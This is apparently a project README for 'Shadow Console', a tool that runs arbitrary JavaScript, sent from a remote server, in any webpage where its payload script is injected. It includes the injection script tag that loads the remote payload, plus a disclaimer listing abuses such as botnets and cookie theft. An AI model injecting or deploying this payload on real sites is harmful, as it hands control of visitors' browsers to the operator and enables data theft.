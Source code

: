 ![Shadow Console Banner](shadow-console-banner.png)

A real-time JavaScript command execution system that allows you to run JavaScript commands on any webpage where the payload script is injected.

### Project Structure

```
shadow-console/
├── public/                    # Static files served by Express
│   ├── browser-payload.js     # WebSocket client that executes commands in the browser
│   ├── index.html             # Command input interface
│   ├── script.js              # Client-side JavaScript for handling command input
│   └── style.css              # CSS styles for the web interface
├── server.js                  # Main server file with WebSocket and HTTP endpoints
├── package.json               # Project dependencies and scripts
├── package-lock.json          # Locked versions of dependencies
├── .env                       # Environment variables
├── .gitignore                 # Git ignore rules
├── README.md                  # Project documentation
└── shadow-console-banner.png  # Image for the project banner
└── LICENSE                    # License information for the project
```

### Deployment

1. Create a new Web Service on render.com
2. Connect your GitHub repository
3. Configure the following:
   - Build Command: `npm install`
   - Start Command: `node server.js`
   - Environment Variables:
     ```
     MONGODB_URI=your_mongodb_atlas_uri
     ```

### Usage

1. Access the command interface at your Render URL:

   ```
   https://your-app-name.onrender.com
   ```

2. To inject the payload into any webpage, add this script tag:

   ```html
   <script src="https://your-app-name.onrender.com/browser-payload.js"></script>
   ```

### How It Works

1. **Command Submission**

   - User enters command in web interface
   - Command is saved to MongoDB
   - Server broadcasts command to all connected clients via WebSocket

2. **Command Execution**

   - Payload script receives command via WebSocket
   - Executes command using `eval()`
   - Sends execution result back to server
   - Server updates command status in MongoDB

3. **Real-time Communication**
   - WebSocket ensures instant command execution
   - No polling required
   - Bi-directional communication for results

### Security Considerations

- The payload uses `eval()` which can execute any JavaScript code
- Only use in controlled environments
- Consider adding authentication and command validation
- Use environment variables for sensitive data
- Use MongoDB Atlas for database

### Dependencies

- `express`: Web server framework
- `mongoose`: MongoDB ODM
- `ws`: WebSocket server and client
- `dotenv`: Environment variable management
- `cors`: Cross-Origin Resource Sharing support

### Development

1. Local Setup:

   ```bash
   npm install
   ```

2. Create `.env`:

   ```
   MONGODB_URI=your_mongodb_uri
   ```

3. Start development server:

   ```bash
   npm run dev
   ```

### Security Warning ⚠️

This tool is for educational and authorized testing purposes only. Misuse can lead to:

- Unauthorized remote code execution
- Data theft and privacy violations
- Network security compromises
- Legal consequences

**Do Not Use It For:**

- Backdoor exploitation
- Botnet deployment
- Session/cookie hijacking
- Credential theft
- Local storage exploitation
- XSS payload injection
- Malicious iFrame injection
- Browser fingerprinting
- Clickjacking attacks
- Phishing campaigns
- Unauthorized data exfiltration

**Legal Disclaimer:** Users are solely responsible for ensuring all necessary authorizations are obtained before deployment. The authors assume no liability for misuse.

### License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

Made by [atrey.dev](https://atrey.dev)
